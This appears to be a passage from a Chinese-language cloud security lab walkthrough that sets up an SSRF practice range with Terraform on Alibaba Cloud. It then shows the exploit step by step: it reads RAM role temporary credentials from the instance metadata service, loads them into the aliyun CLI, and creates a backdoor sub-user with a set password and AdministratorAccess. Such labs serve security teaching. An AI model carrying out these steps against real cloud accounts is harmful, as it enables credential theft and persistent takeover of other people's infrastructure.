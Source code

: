 ```bash
terraform init
terraform apply
```

如果 init 初始化比较慢，挂上代理即可

在 apply 期间，会提示 Enter a value，这时输入 yes 回车即可。

<img width="800" src="/img/1654511678.png"></br>

在 Outputs 处，可以看到返回的靶场地址，访问这个地址，可以看到 SSRF 测试靶场页面，这时就说明环境搭建完了。

<img width="800" src="/img/1654511714.png"></br>

## 0x02 环境利用

当前环境存在 SSRF 漏洞，但和常规 SSRF 所处的环境不同，这里的 SSRF 漏洞是出现在云服务器上的，这也就意味着我们可以通过这个 SSRF 漏洞获取到该服务器的元数据信息。

访问元数据

```bash
http://100.100.100.200/latest/meta-data
```

<img width="800" src="/img/1654511862.png"></br>

在返回的结果中，可以看到当前环境存在 ram/ 目录，这也就意味着当前云服务器配置了 RAM 角色，这样我们可以获取到临时凭证了。

通过元数据获取临时凭证

> 这里 URL 中的 huocorp-terraform-goat-role 是 RAM 角色名称，可以通过访问 http://100.100.100.200/latest/meta-data/ram/security-credentials/ 获取到。

```bash
http://100.100.100.200/latest/meta-data/ram/security-credentials/huocorp-terraform-goat-role
```

<img width="800" src="/img/1654511960.png"></br>

将临时凭证配置到 aliyun 命令行工具里。

```bash
aliyun configure --mode StsToken
```

<img width="800" src="/img/1654512150.png"></br>

创建子用户，并赋予管理员权限

```bash
aliyun ram CreateUser --UserName teamssix
aliyun ram CreateLoginProfile --UserName teamssix --Password TeamsSix@666
aliyun ram AttachPolicyToUser --PolicyType System --PolicyName AdministratorAccess --UserName teamssix
```

<img width="1200" src="/img/1654512184.png"></br>
